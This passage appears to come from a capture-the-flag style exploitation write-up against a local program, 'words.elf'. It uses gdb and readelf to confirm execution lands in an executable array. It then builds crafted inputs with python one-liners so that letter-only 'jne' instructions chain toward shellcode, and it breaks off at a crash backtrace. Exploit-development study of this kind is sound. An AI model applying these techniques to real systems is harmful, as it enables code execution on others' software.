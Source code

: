 Great.  Let's first confirm that execution actually stopped in `g_words`:

```
$ gdb words.elf core
(gdb) bt
#0  0x00007f8a6dbf921b in ?? ()
#1  <signal handler called>
#2  0x0000000000642dab in g_words ()
#3  0x000000000044344e in count ()
#4  0x0000000000443f7f in main ()
```

So far so good.  We can use `readelf` to confirm that `0x642dab` is executable:

```
$ readelf -l core
[...]
  LOAD   0x00000000001ad000 0x000000000046b000 0x0000000000000000
         0x0000000000279000 0x0000000000279000  RWE    0x1000
  LOAD   0x0000000000426000 0x00000000006e4000 0x0000000000000000
         0x000000000027b000 0x000000000027b000  RWE    0x1000
  LOAD   0x00000000006a1000 0x000000000095f000 0x0000000000000000
         0x0000000000002000 0x0000000000002000  RWE    0x1000
[...]
```

Notice that these three mappings are actually continuous, but since `libsqz.so`
maps them back in one page at a time we may see them broken up like this.

Now, there's just one more problem: the only characters we can put into the
`g_words` array are lower-case letters and `-`.

But there are fewer restrictions on `g_links` (only no NUL-bytes and no
upper-case letters), so if we can get to there writing shellcode will be easier
(i.e. not impossible).

It just so happens that the `ZF` bit in `EFLAGS` is unset when control goes to
`g_words`, and `jne` is encoded as `"u"`.  So we can repeatedly jump through
`g_words` until we land in `g_links` where we can put our shellcode.

If we keep our shellcode below 254 characters we can even include it in the
`"href"` attribute that triggers the lower-casing bug.

Let's start with a single jump to confirm.  `jne $+99` is encoded as `"ua"`.
Executing this code should land us at `0x642dab` + 99 = `0x642e0e`.

First generate a new `baz`.  Remember, we need `"ua"` at the 112th byte of the
7440th word.

```
$ python -c 'print("X " * 7439 + "X"*111 + "ua")' > baz
$ python -c 'print("<a href=" + "X"*254 + "% x>")' >> baz
```

Let' try that again, shall we?

```
$ (
> echo Ignore case=yes
> echo Fetch http://localhost:8080/foo
> sleep 1
> echo Fetch http://localhost:8080/bar
> sleep 1
> echo Fetch http://localhost:8080/baz
) | env LD_LIBRARY_PATH=$PWD ./words.elf
> > WORDS:
  elf
> WORDS:
> Aborted (core dumped)
$ gdb words.elf core
(gdb) bt
```